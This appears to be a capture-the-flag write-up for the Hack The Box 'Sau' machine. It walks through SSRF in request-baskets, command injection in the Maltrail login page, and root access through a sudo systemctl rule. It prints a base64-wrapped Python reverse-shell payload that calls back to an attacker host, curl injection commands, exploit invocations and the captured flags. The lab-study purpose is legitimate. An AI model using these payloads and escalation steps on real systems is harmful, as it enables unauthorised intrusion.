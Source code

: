 ```yaml
---
type: box
finished: "true"
writeup: "true"
---
```


# Notes:

### IP:
10.10.11.224
### Level:
Easy
### User flag:
aae76269af82f34d13677a7c61db2a48
### Root flag:
c5b4ba7e6f9f1d81ec295f0c28e08ac8


# Nmap

### Nmap gives the following output
```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 06 Nov 2023 16:33:37 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 06 Nov 2023 16:33:11 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 06 Nov 2023 16:33:11 GMT
|_    Content-Length: 0

```
### With this command
```
nmap -p- -sV -sC 10.10.11.224
```

# Web

Accessing both the 80 port and 8338 port gives us no response on Firefox.
<b>However</b> the :55555 port gives us something:
![[writeups/HTB/BOX/SAU/pictures/website.png]]

A request basket webpage. Googling a bit around allows us to find that version 1.2.1 and under is vulnerable to a SSFR attack. Checking the version on the webpage to see if we have that version and...

![[baskets-version.png]]
### <b>bingo</b>

# SSRF with **[CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)**:

Cloning the repository and using the script, we can make the server redirect itself to the other ports we found earlier in the nmap scan, specifically port 80 and port 8338.

We can run these commands that gives us the URL's that redirects to itself with their ports.
```
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:8338
```
and
```
./CVE-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

Going to the new basket we have created redirects us to those ports where this strange website is hosted:
![[Maltrail-website.png]]

This really gives us nothing. We see that there is a log in button, however it's not clickable. Nor does it have a link that redirects in the html. HOWEVER! On the bottom of the page we see something interesting once more:

![[Maltrail-version.png]]

Googling "Maltrail (v0.53)" led me to this https://github.com/spookier/Maltrail-v0.53-Exploit GitHub page. So as the github page describes. There is a RCE (Remote Code Execution) vulunrability in the login page for Maltrail version 0.53. This must be the "Log In" button we saw previously. So by pure chance I wanted to see if there is a directory called login and...

![[Maltrail-login.png]]

### Bingo (again)

So we know there is a login page. We can either use the this nice person's repo, or you can manually send a request via curl, where the data is a reverse shell that's 64 encoded, and decoded using bash on the server's side. OR you can download the script and run it.

If you're curious what the script does:

```python
payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''

encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64

command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
```

This is the main part of the script. The **payload** is a reverse shell that uses python to spawn a shell. The **encoded payload** is just the base64 encoded version of that very payload. Finally the **command** is the request that RCE's the username field with a simple semicolon and then decrypts our payload on the server and runs it.

Pulling all of this together or running the script and...

![[we're-in.png]]
## **We're in**

Navigating to /home/puma we can now cat out the file user.txt and get:
![[user.txt.png]]

# Privilege escalation with # Systemctl:

This one was kind of a cakewalk.

Doing the command `sudo -l` is a quick way to find any privilage escalations, because it lists every command our user can run as root using the sudo command. We then get the output:

```
$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

We can run the the command `sudo systemctl status trail.service` with no password what so ever. This article goes more in depth on what you can do to privilege escalate with Systemctl: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/

We can just run `sudo systemctl status trail.service` and spawn a shell with `!sh` and boom! We are now root. All we have to do now is cat out the contents of /root/root.txt and:

```
# cat /root/root.txt
c5b4ba7e6f9f1d81ec295f0c28e08ac8
```

**In conclusion**: The user flag was very hard to get conceptually and the one I was stuck on. I knew that there was a SSFR, however I didn't know what to do with it. After knowing you could redirect into it's own ports, the challenge became a lot more feasible. I didn't write any of my own scripts with this challenge so hopefully there will come a time in the future for that.